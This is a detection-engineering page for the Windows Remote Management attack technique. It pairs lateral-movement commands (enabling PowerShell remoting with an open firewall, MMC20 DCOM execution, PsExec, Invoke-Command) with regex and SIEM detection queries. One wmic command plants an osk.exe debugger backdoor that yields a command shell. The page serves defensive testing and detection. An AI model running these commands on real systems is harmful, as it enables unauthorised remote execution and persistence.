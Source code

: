 
# **T1028 - Windows Remote Management**
---

### 1.  Enable Windows Remote Management
 Command Execution
```
powershell.exe Enable-PSRemoting -SkipNetworkProfileCheck -Force
```

```
powershell.exe Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
```

regex for detection
```
(?i).*powershell.*Enable-PSRemoting.*-Force.*
```

DNIF QUERY
```
_fetch * from event where $Duration=1h AND $Process=regex(.*powershell.*Enable-PSRemoting.*-Force.*)i group count_unique $Process, $ParentProcess, $App limit 100
```
---
### 2. PowerShell Lateral Movement
Syntax
```
powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Document.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")

```
 Command Execution
```
powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","DESKTOP-CBP7A7L")).Document.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```
regex for detection

```
(?i).*powershell.exe.*CreateInstance.*MMC20.*Document\.ActiveView\.ExecuteShellCommand.*
```

DNIF QUERY
```
_fetch * from event where $LogName=WINDOWS-SYSMON AND $EventID=1 AND $Process=regex(powershell.exe.*CreateInstance.*MMC20.*Document\.ActiveView\.ExecuteShellCommand.*)i group count_unique $Process, $ParentProcess, $App limit 100
```
---
### 3. WMIC Process Call Create
Syntax
```
wmic /user:usename /password:password /node:"#{computer_name}" process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```

> Enter username password and node = computername
please use double quotes in node if you have - in your computername

Command Execution

```
wmic /user:administrator /password:password /node:"DESKTOP-CBP7A7L" process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

```

regex for detection

```
(?i).*wmic.*\/user.*\/password.*\/node.*process call create.*
```

DNIF QUERY
```
_fetch * from event where $LogName=WINDOWS-SYSMON AND $EventID=1 AND $Process=regex(.*wmic.*\/user.*\/password.*\/node.*process call create.*)i group count_unique $Process, $ParentProcess, $App limit 100
```
---

### 4. Psexec
Syntax
```
psexec \\host -u domain\user -p password -s cmd.exe
```

> **Note : Download psExec from sysinternal website.**

Command Execution
```
cd C:\Users\Test\Downloads\PsExec\
.\PsExec.exe \\DESKTOP-CBP7A7L -u administrator -p password -s cmd.exe
```
regex for detection

```
(?i).*psexec.*\-u.*\-s.*
```

DNIF QUERY
```
_fetch * from event where $LogName=WINDOWS-SYSMON AND $EventID=1 AND $Process=regex(.*psexec.*\-u.*\-s.*)i group count_unique $Process, $ParentProcess, $App limit 100
```
---
### 5. Powershell Invoke-Command
Syntax
```
invoke-command -computer_name #{host_name} -scriptblock {#{remote_command}}
```
Command Execution
```
 powershell.exe invoke-command -ComputerName "DESKTOP-CBP7A7L" -scriptblock {calc.exe}
```

> Computername should we your hostname

regex for detection
```
(?i).*powershell.*invoke\-command.*\-ComputerName.*scriptblock.*
```

DNIF QUERY
```
 _fetch * from event where $LogName=WINDOWS-SYSMON AND $EventID=1 AND $Process=regex(.*powershell.*invoke\-command.*\-ComputerName.*scriptblock.*)i AND $Duration=1h group count_unique $Process, $ParentProcess, $App limit 1000
 ```
